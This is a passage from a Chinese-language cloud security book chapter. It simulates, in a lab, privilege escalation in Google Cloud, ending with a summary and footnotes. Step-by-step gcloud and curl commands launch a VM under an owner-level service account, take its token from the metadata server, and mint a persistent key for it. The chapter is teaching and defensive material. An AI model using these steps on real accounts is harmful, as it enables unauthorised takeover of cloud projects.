到目前为止，你应该已经很好地理解了攻击者如何利用 Cloud Run 函数来 escalate 权限。虽然本节主要聚焦于通过 Cloud Run 函数进行权限提升，但部署新的 Cloud Run 服务并将其与具有提升 IAM 角色的服务账号关联，也能实现类似的结果。

如 Figure 10-4 所示，从被攻破的 `html-to-pdf@…​.iam​.gser⁠viceaccount.com` 服务账号开始，攻击者可以部署新的 Cloud Run 服务并将其与 `superadmin@…​.iam.gserviceaccount.com` 服务账号关联。通过此新的 Cloud Run 服务，攻击者可以通过向服务端点发送授权请求来获取关联服务账号的访问令牌，并使用该访问令牌以服务账号身份进行身份验证（`superadmin@…​.iam.gserviceaccount.com`）。一旦以具有提升权限的服务账号身份通过身份验证（`superadmin@…​.iam.gserviceaccount.com`），攻击者就有效地获得了执行其分配的 IAM 角色所允许的任何操作的能力。



从防御安全角度来看，定期审查具有提升权限的服务账号并将其使用限制在特定资源上以降低权限提升风险非常重要。此外，你应定期删除或清理未使用的资源，以限制攻击者可能用来提升权限的途径。

### 通过 Compute Engine VM 实例提升权限

在本节中，你将深入了解攻击者如何通过启动新的 Compute Engine VM 实例并将其与具有提升权限的现有服务账号关联来提升权限。你会发现，一旦具有过度宽松服务账号的 VM 正在运行，攻击者就可以轻松通过 SSH 连接并获取关联服务账号的访问令牌。凭借此访问令牌，攻击者随后可以以该服务账号身份进行身份验证并执行其 IAM 角色允许的任何操作。

#### Note

本节假设你使用 Attacker 账号来模拟攻击者与 Serverless Lab 账号中 serverless 实验室环境的资源进行交互。

让我们继续进行权限提升模拟：

1. 导航到 Cloud Shell 环境的主目录，然后显示 `run-key.json` 文件的内容：

```
cd ~

cat run-key.json
```

这会产生以下输出：

```
{
  "type": "service_account",
  "project_id": "...",
  "private_key_id": "...",
  "private_key": "...",
  "client_email": "html-to-pdf@....iam.gserviceaccount.com",
  "client_id": "...",
  "auth_uri": "https://accounts.google.com/o/oauth2/auth",
  "token_uri": "https://oauth2.googleapis.com/token",
  "auth_provider_x509_cert_url": "https://www.googleapis.com/...",
  "client_x509_cert_url": "https://www.googleapis.com/...",
  "universe_domain": "googleapis.com"
}
```

2. 使用 `run-key.json` 文件以被攻破的 Cloud Run 服务使用的服务账号身份进行身份验证：

```
export RUN_SA_CREDENTIALS="run-key.json"
gcloud auth activate-service-account \
  --key-file=$RUN_SA_CREDENTIALS
```

你应该会收到以下确认消息：

```
Activated service account credentials for:
 [html-to-pdf@....iam.gserviceaccount.com]
```

3. 通过从密钥文件检索项目 ID 来设置当前 `gcloud` 项目：

```
PROJECT_ID=$(cat run-key.json | jq -r ".project_id")
gcloud config set project $PROJECT_ID
```

4. 从密钥文件检索服务账号的电子邮件地址并将其存储在 `RUN_KEY_EMAIL` 变量中：

```
RUN_KEY_EMAIL=$(cat run-key.json | jq -r ".client_email")
echo $RUN_KEY_EMAIL
```

你应该会得到以下输出：

```
html-to-pdf@....iam.gserviceaccount.com
```

5. 检查分配给服务账号的 IAM 角色以验证其权限：

```
gcloud projects get-iam-policy $PROJECT_ID \
  --flatten="bindings[].members" \
  --format='table(bindings.role)' \
  --filter="bindings.members:$RUN_KEY_EMAIL"
```

这会输出以下内容：

```
ROLE: roles/editor

ROLE: roles/iam.serviceAccountUser

ROLE: roles/run.admin
```

#### Caution

尽管没有直接冒充其他服务账号的能力，但 `roles/run.admin` 和 `roles/iam.serviceAccountUser` 角色的组合可以被攻击者利用来启动新的 Cloud Run 函数并将其与具有提升权限的现有服务账号关联。

6. 列出当前 Google Cloud 项目中的所有服务账号：

```
gcloud iam service-accounts list
```

这会给你一个服务账号列表——包括一个电子邮件地址以 `superadmin` 开头的服务账号：

```
...

DISPLAY NAME: Cloud Run HTML to PDF Service Account
EMAIL: html-to-pdf@....iam.gserviceaccount.com
DISABLED: False

DISPLAY NAME: superadmin
EMAIL: superadmin@....iam.gserviceaccount.com
DISABLED: False
```

7. 复制以 `superadmin` 开头的服务账号的电子邮件地址并将其存储在 `SA_EMAIL` 变量中：

```
SA_EMAIL="[EMAIL]"
```

8. 检查电子邮件地址以 `superadmin` 开头的服务账号分配的 IAM 角色：

```
gcloud projects get-iam-policy $PROJECT_ID \
  --flatten="bindings[].members" \
  --format='table(bindings.role)' \
  --filter="bindings.members:$SA_EMAIL"
```

这会返回以下响应：

```
ROLE: roles/owner
```

现在你已经确定了用于提升权限的服务账号，让我们继续启动新的 Compute VM 实例：

1. 启动一个 Compute Engine VM（命名为 `token-vm`），使用配置了 `roles/owner` 角色的服务账号：

```
gcloud compute instances create token-vm \
  --zone=us-east1-b \
  --machine-type=e2-micro \
  --image-family=debian-12 \
  --image-project=debian-cloud \
  --service-account=$SA_EMAIL \
  --scopes=https://www.googleapis.com/auth/cloud-platform
```

这会产生以下输出：

```
Created [...].
NAME: token-vm
ZONE: us-east1-b
MACHINE_TYPE: e2-micro
PREEMPTIBLE:
INTERNAL_IP: ...
EXTERNAL_IP: ...
STATUS: RUNNING
```

#### Note

此 VM 实例将在 Serverless Lab 账号中启动（来自 Attacker 账号的 Cloud Shell 终端）。

2. 使用 SSH 连接到 `us-east1-b` 区域中的 `token-vm` Compute Engine 实例：

```
gcloud compute ssh token-vm --zone=us-east1-b
```

3. 通过 SSH 连接到 VM 时，检查 VM 的操作系统和内核版本：

```
uname -a
```

你应该会得到以下输出：

```
Linux token-vm 6.1.0-37-cloud-amd64 #1 SMP PREEMPT_DYNAMIC
Debian 6.1.140-1 (2025-05-22) x86_64 GNU/Linux
```

检索为 VM 配置的服务账号的电子邮件地址：

```
MD_URL="http://169.254.169.254/computeMetadata/v1"

SERVICE_ACCOUNT_EMAIL=$(curl -s -H "Metadata-Flavor: Google" \
    "$MD_URL/instance/service-accounts/default/email")

echo $SERVICE_ACCOUNT_EMAIL
```

输出应确认 VM 配置为使用具有 `roles/owner` 角色的服务账号：

```
superadmin@....iam.gserviceaccount.com
```

#### Tip

请注意此服务账号电子邮件，因为你将在后面的步骤中需要它。

检索授予 VM 默认服务账号的 OAuth 2.0 范围：


```
curl -H "Metadata-Flavor: Google" \
  "$MD_URL/instance/service-accounts/default/scopes"
```

这将返回以下输出：

```
https://www.googleapis.com/auth/cloud-platform
```

从实例元数据服务器检索 VM 默认服务账号的访问令牌：

```
curl -H "Metadata-Flavor: Google" \
  "$MD_URL/instance/service-accounts/default/token"
```

你应得到以下 JSON 响应：

```
{"access_token":"...","expires_in":...,"token_type":"Bearer"}
```

从上一步的 JSON 输出中复制 `access_token` 的值。

退出 SSH 会话：

```
exit
```

##### 4. 将访问令牌的值存储在变量中：

```
SUPERADMIN_ACCESS_TOKEN="[ACCESS TOKEN]"
```

确保将 `[ACCESS TOKEN]` 替换为访问令牌。

##### 5. 将服务账号的电子邮件地址（`superadmin@....iam.gserviceaccount.com`）存储在变量中：

```
SUPERADMIN_EMAIL="[EMAIL]"
```

确保将 `[EMAIL]` 替换为以 `superadmin` 开头的服务账号的电子邮件地址。

##### 6. 生成新的服务账号密钥然后将其保存到本地：

```
cd ~

BASE_URL="https://iam.googleapis.com/v1"
PROJECT_PATH="projects/$PROJECT_ID"
SERVICE_ACCOUNT="serviceAccounts/$SUPERADMIN_EMAIL"

curl -s -X POST \
  -H "Authorization: Bearer $SUPERADMIN_ACCESS_TOKEN" \
  -H "Content-Type: application/json" \
  "$BASE_URL/$PROJECT_PATH/$SERVICE_ACCOUNT/keys" \
  -d '{}' \
  | jq -r '.privateKeyData' | base64 --decode > superadmin-key-02.json
```

#### Tip

你可以通过运行 `cat superadmin-key-02.json` 来验证 `superadmin-key-02.json` 是否存在。

##### 7. 使用生成的密钥以关联 `roles/owner` 角色的服务账号身份进行身份验证：

```
export SUPERADMIN_CREDENTIALS="superadmin-key-02.json"

gcloud auth activate-service-account \
  --key-file=$SUPERADMIN_CREDENTIALS

PROJECT_ID=$(cat superadmin-key-02.json | jq -r ".project_id")
gcloud config set project $PROJECT_ID
```

##### 8. 列出所有已通过身份验证的 `gcloud` 账号：

```
gcloud auth list
```

这会产生以下输出：

```
Credentialed Accounts

...

ACTIVE:
ACCOUNT: html-to-pdf@....iam.gserviceaccount.com

ACTIVE: *
ACCOUNT: superadmin@....iam.gserviceaccount.com

To set the active account, run:
    $ gcloud config set account `ACCOUNT`
```

这里，`superadmin@…​.iam.gserviceaccount.com` 账号当前处于活动状态，如 ACTIVE 列中的 `*` 所示。

##### 9. 检查分配给服务账号的 IAM 角色，以验证其是否关联 `roles/owner` 角色：

```
gcloud projects get-iam-policy $PROJECT_ID \
  --flatten="bindings[].members" \
  --format='table(bindings.role)' \
  --filter="bindings.members:$SUPERADMIN_EMAIL"
```

这会输出以下内容：

```
ROLE: roles/owner
```

你现在应该对过度宽松的服务账号如何允许攻击者将权限提升超出其初始访问范围有了很好的了解。从这一点开始，攻击者可以对项目执行不受限制的操作，包括修改 IAM 策略、创建或删除资源、部署恶意工作负载、访问敏感数据，以及安装后门以在账号中保持长期持久性。

攻击者可以采取的另一条途径是创建新的 API 密钥——一个加密字符串，允许应用程序调用各种 Google Cloud API，例如 Cloud Translation API 和 Cloud Vision API——并使用它直接访问无服务器实验环境中启用的 Google Cloud 服务，如 Figure 10-5 所示。



成功生成或获取 API 密钥的攻击者可以直接在 rogue 项目中使用它进行未经授权的请求并与 Google Cloud 服务交互，而无需使用被入侵服务账号的凭据。要生成新的 API 密钥，攻击者可以以具有相关 `apikeys.keys.*` 权限的服务账号身份进行身份验证，例如由 `roles/​serv⁠iceusage.apiKey⁠s​Admin` 角色授予的权限。^17 由于 `superadmin@…​.iam.gserviceaccount.com` 服务账号已被授予 `roles/owner` 角色（该角色已包含 `apikeys.keys.*` 权限），攻击者可以在无需额外权限的情况下创建和管理 API 密钥。

从防御安全角度来看，主动检查具有提升权限的服务账号并将其使用限制为仅特定资源以限制攻击者通过服务账号提升权限的能力至关重要。你还必须主动审计每个项目中现有的 API 密钥，验证其权限，并撤销任何可疑或可能被入侵的密钥。^18 你应考虑使用自动化工具和服务来持续监控配置错误、检测未经授权的 API 密钥使用情况，并在所有服务账号和项目中强制执行最小权限访问。

#### Caution

现在你已完成本章和前两章中的动手示例，请务必检查并删除你在 Google Cloud 账号中创建的所有资源。留下不再使用的资源可能会导致不必要的费用，并使你的账号暴露于潜在的安全风险。

## Summary

在本章中，你深入了解了攻击者如何利用其初始访问权限设置后门、提升权限并入侵云账号中的其他资源。你首先通过设置较低的请求超时来限制攻击者在反向 shell 会话中运行恶意命令的时间窗口——但很快意识到仅此措施无法完全保护应用程序免受知道如何绕过此类限制的攻击者侵害。在完成包括设置后门在内的攻击模拟后，你进一步将易受攻击的 Cloud Run 服务的请求超时设置减少到 10 秒，并大幅减少了相关服务账号的权限。在无服务器实验环境中实施这些更改后，你模拟了攻击者如何通过避免使用反向 shell 来绕过新的超时和权限限制。最后，你探索了攻击者可以用来滥用配置错误并在 Google Cloud 账号中提升权限的多种策略和方法。

在下一章中，你将把重点转向 Microsoft Azure，并研究攻击者如何利用易受攻击的 Azure Functions。随着你进行模拟和动手示例，你将学习如何识别各种类型的配置错误并对其进行保护以抵御潜在威胁。

^1 你可以 optionally 将输出粘贴到本地文本编辑器中。

^2 你可以在 [GitHub gist (see `remove_iam_policy_binding.sh`)](https://oreil.ly/0mSPU) 中找到此脚本。请注意，你可能需要浏览页面才能找到它。

^3 这假设 `ngrok` 已在你的本地机器上安装并完全配置（例如，你的 `ngrok` authtoken 已设置，并且你有权限打开隧道）。如果没有，请在运行隧道之前按照官方 `ngrok` 设置说明进行操作。

^4 如果 `INPUT_BUCKET` 变量已设置，可以跳过此步骤。

^5 如果 `NGROK_URL` 变量已设置，可以跳过此步骤。

^6 由于你的 `ngrok` URL 不同，预计会得到不同的编码字符串输出。


^(7) 如果你遇到 `ServiceException` 或权限错误，运行 `gcloud auth login` 并按照步骤重新进行身份验证。身份验证完成后，请确保重新运行命令以完成上传。

^(8) 运行 `ls -l` 以确认指定名称的文件存在于当前目录中。

^(9) 在我最近一次运行动手示例时，生成的文件名达到了 311 字节。

^(10) 此端点可通过 http://169.254.169.254/ 访问，并且可供在 Compute Engine、Cloud Run 以及其他可访问元数据服务器的 Google Cloud 管理资源上运行的应用程序和工作负载使用。

^(11) 如果 `INPUT_BUCKET` 变量已设置，可以跳过此步骤。

^(12) 如果在上传文件时遇到权限错误，请运行 `gcloud auth login` 并按照步骤重新进行身份验证。

^(13) 即使由于 Cloud Resource Manager API 未为项目启用而收到 `PERMISSION_DENIED` 错误，你仍应能够从响应中获取项目编号。

^(14) 使用项目 ID 而不是项目编号也应该可以正常工作。

^(15) 电子邮件地址应以 `html-to-pdf` 开头。

^(16) 每个服务帐户对可拥有的活动密钥数量都有最大限制。达到此限制后尝试创建新密钥将导致 `FAILED_PRECONDITION` 错误。

^(17) 请参阅 [Google Cloud 文档](https://oreil.ly/c-_6B) 了解更多详情。

^(18) 你可以通过导航到 Google Cloud 控制台中的凭据页面，查看 API 密钥列表，并根据需要更新或删除密钥来完成此操作。
